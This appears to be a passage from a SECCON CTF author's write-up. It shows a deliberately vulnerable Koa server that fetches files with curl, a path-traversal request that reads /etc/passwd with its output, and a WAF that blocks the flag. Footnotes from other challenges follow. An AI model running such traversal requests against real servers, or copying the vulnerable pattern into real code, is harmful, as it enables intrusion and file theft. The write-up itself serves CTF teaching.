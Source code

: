 ```javascript
app.use(async (ctx) => {
  const path = decodeURI(ctx.path.slice(1)) || "index.html";
  try {
    const proc = await execFile(
      "curl",
      [`file://${process.cwd()}/public/${path}`],
      { timeout: 1000 }
    );
    ctx.type = "text/html; charset=utf-8";
    ctx.body = proc.stdout;
  } catch (err) {
    ctx.body = err;
  }
});

app.listen(PORT);
```

It is obviously vulnerable for path traversal.

```shell
$ http --path-as-is "http://localhost:3000/../../../../etc/passwd"
HTTP/1.1 200 OK
Connection: keep-alive
Content-Length: 961
Content-Type: text/html; charset=utf-8
Date: Tue, 14 Feb 2023 16:49:50 GMT
Keep-Alive: timeout=5

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
... snip ...
```

However, the WAF disallows responses including a flag.

```shell
$ http --path-as-is "http://localhost:3000/../../../../flag.txt"
HTTP/1.1 200 OK
Connection: keep-alive
Content-Length: 4
Content-Type: text/html; charset=utf-8
Date: Tue, 14 Feb 2023 16:52:27 GMT
Keep-Alive: timeout=5

🤔
```

The goal in this challenge is bypassing the WAF.

### Solution

```javascript
// WAF
app.use(async (ctx, next) => {
  await next();
  if (JSON.stringify(ctx.body).match(/SECCON{\w+}/)) {
    ctx.body = "🤔";
  }
});
```


[^babybox-1]: Actually, I discovered the Prototype Pollution before I found this report. Although I don't like 0-day challenges in CTF, it's not 0-day in this case. Also, the part of "Prototype Pollution to RCE" is interesting for me. So I decided to create this challenge.
[^maas-1]: The CSP bypass is too complicated to explain. So, please try it with your hands :raised_hands:
[^light-note-1]: Firefox has recently added support for import maps at version 108 :tada:<br>ref. https://www.mozilla.org/en-US/firefox/108.0/releasenotes/
[^light-note-2]: However, we can construct nested forms by DOM manipulation in JavaScript.<br>E.g. `document.body.appendChild(document.createElement("form")).appendChild(document.createElement("form"))`<br>ref. https://html.spec.whatwg.org/#association-of-controls-and-forms
[^light-note-flag]: https://store.steampowered.com/app/381890/Induction
[^dark-note-flag]: https://store.steampowered.com/app/360740/Downwell